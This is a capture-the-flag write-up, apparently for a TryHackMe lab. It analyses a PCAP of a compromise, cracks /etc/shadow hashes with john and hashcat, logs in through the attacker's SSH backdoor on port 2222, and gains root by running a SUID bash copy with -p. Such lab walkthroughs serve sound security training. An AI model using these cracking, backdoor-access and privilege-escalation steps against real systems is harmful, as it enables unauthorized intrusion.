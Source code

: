 # Forensics - Analyse the PCAP 
download pcap file and open it with wireshark:
1. What was the URL of the page they used to upload a reverse shell?

Upload something on web -> HTTP **POST** request. Check for post request to find the anwser.

2. What payload did the attacker use to gain access?

You can use wireshark to export object including files such as .txt .zip and .php. In this case we will export reverse shell that the attacker uploaded onto Overpass server.


In wireshark. Go to File -> Export Objects -> HTTP and select packet 14 which is the packet that include the reverse shell.

![upload.php](../pic/Screenshot%202020-08-19%20at%2015.47.18.png)

save the flie, open it with ur fav text editor and grab the payload.

1. What password did the attacker use to privesc?

From the last task we know that the reverse shell will connect back to port number 4242. Let start with filter out unnecessary packet by search for `tcp.port == 4242`


Note that the reverse shell is establised between attacker's port **4242** and victim's port **57680**. let imporve our search a bit: `tcp.port == 4242 || tcp.port == 57680`. We can now see the flow reverse shell tracffic. Take your time and try to understand it.


At some point, The attacker try to log into James account by executing `su james`. As we already know, you will need to enter user's password after executing the mentioned command. Find out what James's password

**Hint**:
<details>follow tcp stream</details>

4. How did the attacker establish persistence?

check the tcp stream and you will find out
5. Using the fasttrack wordlist, how many of the system passwords were crackable?

copy `/etc/shadow` to ur kali. now run john to crack it using `/usr/share/wordlists/fasttrack.txt`

```console
kali@kali:~/THM/Overpass$ sudo john -wordlist=/usr/share/wordlists/fasttrack.txt shadow.txt
kali@kali:~/THM/Overpass$ sudo john --show shadow.txt # checkc cracked password
```

# Research - Analyse the code 
clone backdoor from github by executing `git clone https://github.com/NinjaJc01/ssh-backdoor`
1.  What's the default hash for the backdoor? 


check for `hash` in `main.go`
2. What's the hardcoded salt for the backdoor?

check function `passwordHandler`

3. What was the hash that the attacker used? - go back to the PCAP for this!

go back to wireshark and check tcp stream. when the attacker execute `backdoor`
4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?

use [hash identifier](https://www.onlinehashcrack.com/hash-identification.php) to indentify the hash. We will use hashcat to crack the hash. check hashcat [example hash](https://hashcat.net/wiki/doku.php?id=example_hashes) to find out which the hash+salt format for md5.

```console
$ hashcat -m <operation mode> -a 0 -o crack.txt 'passwordhash:salt' /usr/share/wordlists/rockyou.txt --force
```
# Attack - Get back in! 

From `main.go` we know that:
1. the backdoor is run as over `ssh`
2. run on port 2222
3. password to blackdoor

so what are we waiting for? just ssh `into` it
```console
kali@kali:~/THM/Overpass$ ssh $IP -p 2222
james@overpass-production:/home/james/ssh-backdoor$ cd ..
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
```
grab user flag !!

The next step is looking for `SUID`, if you dont know what `SUID` is, pls do some research by youself. Anyway, I use suid3num.py to enumerate `SUID`. You can find the tool on github [link](https://github.com/Anon-Exploiter/SUID3NUM). Tranfer the script to victim server and run it
```
[~] Custom SUID Binaries (Interesting Stuff)
------------------------------
/home/james/.suid_bash
------------------------------
```
let investigate `.suid_bash`

```console
james@overpass-production:/home/james$ file .suid_bash 
.suid_bash: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=12f73d7a8e226c663034529c8dd20efec22dde54, stripped
james@overpass-production:/home/james$ ./.suid_bash 
.suid_bash-4.4$ whoami
james
```
seem like the script is a binary file which spawn a bash shell when u run it. I wonder if it just a normalt bash shell but with suid like the name of script. let check out
```console
james@overpass-production:/home/james$ ./.suid_bash -help
GNU bash, version 4.4.20(1)-release-(x86_64-pc-linux-gnu)
Usage:	./.suid_bash [GNU long option] [option] ...
	./.suid_bash [GNU long option] [option] script-file ...
GNU long options:
	--debug
	--debugger
	--dump-po-strings
```
yo bing go it is just a copy paste of /bin/bash but it a suid file. Try to run `bash -help`, you will get the same output. so let check [GTFOBINs](https://gtfobins.github.io/gtfobins/bash/#suid). focus on `#suid` read and observe !


now let exlpoit it by run `-p`
```console
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
```

no go grab root flag.


I really enjoyed this room, if you dont know what to do next pls check room created by [NinjaJc01](https://tryhackme.com/p/NinjaJc01). I rooted many of his room and alway enjoy it.

